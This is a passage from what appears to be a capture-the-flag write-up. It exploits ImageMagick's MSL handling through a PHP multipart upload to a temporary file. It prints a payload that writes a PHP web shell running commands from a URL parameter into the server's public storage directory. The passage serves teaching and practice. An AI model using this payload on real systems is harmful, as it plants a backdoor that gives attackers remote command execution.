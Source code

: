 ![](/img/image-20230914211121039.png)

That does work. I'll want to upload a file that will be temporarily
written to `/tmp/php*` by PHP. To do that, I'll use a multipart form
data by setting the `Content-Type` header. By giving it `filename` and
`Content-Type` attributes, PHP will handle it as a file.

The file will be a modified version of what's in the blog post:



    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
    <write filename="info:/var/www.md/intentions/storage/app/public/0xdf.php" />
    </image>



Because the admin page gives both the path on the webserver and the path
on disk:
